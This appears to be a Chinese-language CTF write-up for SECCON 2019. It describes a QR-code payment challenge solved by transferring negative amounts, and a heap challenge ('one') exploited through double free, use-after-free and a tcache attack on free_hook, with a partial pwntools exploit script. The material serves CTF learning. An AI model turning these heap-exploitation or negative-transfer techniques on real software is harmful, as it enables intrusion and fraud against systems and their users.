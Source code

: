 每个账号初始500块，生成二维码给其他账号打钱，扫码收钱

二维码解码内容如下

```
username=aidai&amount=500&proof=MJFPi+KmhuQdJ945Td6b4gSuUxbH535aogkELbMGBmwHMSAwgp2rjxmJwg9UV3xbJ557HVpvmvX+nPM8xqYYFy8KSgwwCjCFxAPYaYNeRN6BJP3M4bcSNo1FKAjsQmqRYnTE8JsqGVB3Lkl19Ot3Vs8HC7j2cvxx+ksfqvzcEJifdiUdApUDMSAwxuNX5DTk3yca7ScdcY6twI9wpjvHC3cT0BsE8su1iyowCjBL5FCsQkmtrmpJ29agjzIQpFfaz98As3GRwiPIcYEiATAgMInx2FmsiF3u/by2HT4fw3T7COc9xcxLC8+zh2tK1ywoMQowYKNhogFBKNXWtw8CpDtGjVX/9WPFbLEk1iqK+Ns2KgwxCjC2ux3m75pHgWOD9xhztUNk6Ts16Q1Iu2/aVMcamSNLCTEK&hash=27a40f8ac1e48263ffa5cacbe6ab0f10e83d714d9dd4766404ff64bc7049f2f4
```

打钱数变化proof和hash不变，猜测只会验证钱是否够用

非预期解：测试发现可以打负数，果断开俩号恰烂钱

![1](https://raw.githubusercontent.com/AiDaiP/images/master/seccon2019/1.jpg)

![2](https://raw.githubusercontent.com/AiDaiP/images/master/seccon2019/2.jpg)

预期解应该是伪造proof，等一波wp



## one

只能free memo指向的块，存在double free和uaf

double free后show拿白给堆地址，搞出0x91一波free进unsorted bin拿libc，然后tcache attack写free_hook

```python
from pwn import *
#=r = remote('one.chal.seccon.jp',18357)
r = process('./one')
elf = ELF('./one')
libc = ELF('./libc-2.27.so')

def add(memo):
	r.recvuntil('> ')
	r.sendline('1')
	r.recvuntil('> ')
	r.sendline(memo)

def show():
	r.recvuntil('> ')
	r.sendline('2')


def free():
	r.recvuntil('> ')
	r.sendline('3')

add('fuck')

free()
free()
free()
free()

show()

a = r.recvuntil('\nDone',drop = True)
heap_ptr = u64(a.ljust(8,'\x00'))
log.info(hex(heap_ptr))
add(p64(0))
add('fuck')
add(p64(heap_ptr)+p64(0x91)+p64(heap_ptr))
```
